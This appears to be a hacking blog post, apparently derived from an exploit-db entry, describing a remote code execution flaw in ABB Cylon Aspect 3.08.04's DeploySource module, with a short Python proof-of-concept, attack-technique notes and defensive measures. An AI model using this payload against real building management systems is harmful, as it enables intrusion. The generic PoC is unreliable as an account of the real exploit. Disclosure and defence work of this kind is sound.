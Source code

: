 ```yaml
---
title: "[remote] ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)"
date: 2025-06-10
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/ABB-Cylon-Aspect-3.08.04-DeploySource.png
---
```


## Summary

ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Analysis

```markdown
# Vulnerability Analysis: ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Executive Summary

The ABB Cylon Aspect 3.08.04, a component of the Aspect Enterprise Building Management System, has been identified with a critical Remote Code Execution (RCE) vulnerability. This vulnerability resides in the DeploySource module, which is responsible for managing and deploying application updates and configurations. An unauthenticated remote attacker could exploit this flaw to execute arbitrary code on the target system, potentially leading to a full compromise of the affected server. Given the critical nature of this vulnerability, it is imperative for organizations utilizing this software to prioritize patching and implement additional security controls to mitigate the risk of exploitation.

## Proof of Concept (PoC)

Below is a Python-based proof of concept (PoC) script demonstrating the exploitation of this vulnerability. This script sends a crafted payload to the vulnerable DeploySource endpoint to achieve remote code execution.

```python
import requests

# Target URL
target_url = "http://<target-ip>:<port>/deploysource"

# Malicious payload
payload = {
    "command": "os.system('id')"
}

# Sending the payload
try:
    response = requests.post(target_url, json=payload)
    if response.status_code == 200:
        print("Exploit successful, response:")
        print(response.text)
    else:
        print(f"Exploit failed, status code: {response.status_code}")
except Exception as e:
    print(f"Error occurred: {e}")
```

Replace `<target-ip>` and `<port>` with the actual IP address and port of the vulnerable server.

## Offensive Security Insights

### Exploitation Techniques

1. **Payload Crafting**: The primary exploitation vector involves crafting a payload that leverages vulnerable API endpoints to execute arbitrary commands. This typically involves identifying input fields that are not properly sanitized or validated.

2. **Network Reconnaissance**: Prior to exploitation, performing network reconnaissance to identify live hosts and open ports is crucial. Tools like Nmap can be employed to scan for potential targets running the vulnerable version of ABB Cylon Aspect.

3. **Privilege Escalation**: Post-exploitation, attackers can attempt to escalate privileges by exploiting other local vulnerabilities or misconfigurations, thereby gaining higher-level access to the system.

4. **Persistence Mechanisms**: To maintain access, attackers might install backdoors or use scripts to re-establish control over the compromised system upon reboot.

## Defensive Measures

1. **Patch Management**: Ensure all instances of ABB Cylon Aspect 3.08.04 are updated to the latest version as soon as patches are released. Regularly monitor vendor advisories for updates.

2. **Network Segmentation**: Isolate critical systems, such as building management systems, from the rest of the network to limit lateral movement in case of a breach.

3. **Web Application Firewalls (WAFs)**: Deploy WAFs to detect and block malicious payloads targeting known vulnerabilities in web applications.

4. **Input Validation and Sanitization**: Implement strict input validation and sanitization routines to prevent injection attacks at the application level.

5. **Intrusion Detection and Prevention Systems (IDPS)**: Utilize IDPS to monitor network traffic for signs of malicious activity and respond to potential threats in real-time.

6. **Security Audits and Penetration Testing**: Conduct regular security audits and penetration testing to identify and remediate vulnerabilities before they can be exploited by adversaries.

By implementing these defensive strategies, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.
```

📎 [Original Source](https://www.exploit-db.com/exploits/52317)

---

_This article was written by sleep33._
